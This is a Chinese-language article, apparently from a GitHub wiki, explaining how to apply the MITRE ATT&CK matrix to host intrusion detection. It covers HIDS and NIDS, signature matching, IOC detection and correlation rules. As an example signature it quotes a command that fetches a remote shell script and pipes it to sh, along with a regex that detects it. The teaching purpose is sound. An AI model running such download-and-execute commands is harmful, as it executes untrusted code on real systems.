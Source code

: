 # att&ck矩阵主机安全实践

## 0x01：前言
MITRE在2013年推出了ATT&CK模型，根据真实的观察数据来描述和分类对抗行为。ATT&CK将已知攻击者行为转换为结构化列表，近两年来，也在安全行业中广受欢迎，涌现大量需求岗位，且在未来趋势逐步上升趋势，MITRE提供的“对抗战术、技术和常识”框架逐步落地在入侵检测系统中。昨天在群里看到国外分析师在了解国外的落地情况

## 0X02：入侵检测
落地在入侵检测平台，先大概总结入侵检测的大概思路，入侵检测是指通过对采集来的数据进行检查，并根据观察到的异常事件和数据产生告警的过程，常见做法是对入侵行为的发觉，通过从计算机网络或系统中的若干关键点收集信息，并对这些信息进行分析，对被保护系统进行安全审计、监控、攻击识别以及做出实时的反应。从而发现网络或系统中是否有违反安全策略的行为和遭到攻击的迹象。

一个典型的入侵检测系统至少应包括3个功能模块：
```
提供事件记录流的信息源
发现入侵迹象的分析引擎
于分析引擎的相应部件
```
![](https://github.com/redbullsecteam/intrusion-detection-wiki/blob/master/image/%E5%85%A5%E4%BE%B5%E6%A8%A1%E5%9D%97.png)
![](https://github.com/redbullsecteam/intrusion-detection-wiki/blob/master/image/ossec%E6%9E%B6%E6%9E%84.png)

### 入侵检测的分类
根据检测所用数据的来源不同，可将入侵检测系统分为以下三类：
#### 基于主机的入侵检测系统（HIDS）
1. 被监测系统的操作系统事件
2. 日志应用程序的事件日志
3. 系统调用日志（syscall）
4. 端口调用
5. 安全审计日志（eventlog）
#### 基于网络的入侵检测系统（NIDS）
数据源是网络上的原始数据包，利用一个运行在混杂模式下的网络适配器类实时监视并分析通过网络进行传输的所有通信业务

#### 基于混合数据源的入侵检测系统（HIDS+NIDS）

### 通用检测方法

#### 基于已知攻击的检测
通过收集非已知入侵攻击的信息（知识、模式等）的行为特征，建立相关的特征库，当监测的用户或系统行为与库中的记录相匹配时，即认为这种行为是入侵，也是ATT&CK矩阵的思路，这种检测误报率低，对计算能力要求不高，局限在于只能发现已知攻击，对未知攻击无能为力，且模式库难以统一定义，特征库也必须不断更新。
 ##### 匹配模式
-   已知特征
 将已知特征转换为模式，存放在模式数据库中，在检测过程中将捕获的事件与模式数据库中的入侵模式进行匹配，若匹配成功则认为有入侵行为发生。
如：
`wget http://test.com/eval.sh -o eval.sh | sh`
通过正则表达式对这种误用行为模式进行概括描述为
`wget\s+http:.*(\s+-\w+){0,}\s+-o\s+.*\.(sh|pl)\s*\|sh`
这里存在着漏报和误报的问题，例如某正常用户管理员可能会执行下列指令，用于自动化的批量运维部署，但是对应一些有着明显的攻击特征可以直接检测，对于这样的现状常见的思路是”升维“或者”维度切换“，在一个维度无法区分的向量，升级到多维度结合判断
- IOC检测
IOC是可用于客观描述网络入侵事件，以与平台无关方法表示的任意信息片断
```
注册表键值、文件名、文本字符串、进程名、文件哈希、IPv4地址、URL、电子邮件地址
```
目前通过分析过的IOC来看，存在大量的IOC过期导致的误报事件，解决这个问题的常见方法是继续IOC再关联行为分析，如：邮件文件发现存在恶意hash值的office文件，其IOC事件的用户行为为：下载文件、DLL代码被执行、发起CC连接，匹配对应事件后定义为恶意IOC，但可能存在的情况是未能及时触发行为，导致漏报。
#### 关联检测
通过将匹配模式的规则转化成IF-THEN规则，形成知识库，然后，运用推理算法进行检测入侵。编码规则说明攻击的必要条件作为IF的组成部分，当规则的左边的全部条件都满足时，规则的右边的动作才会执行，形成逻辑判断
#### 基于行为的检测
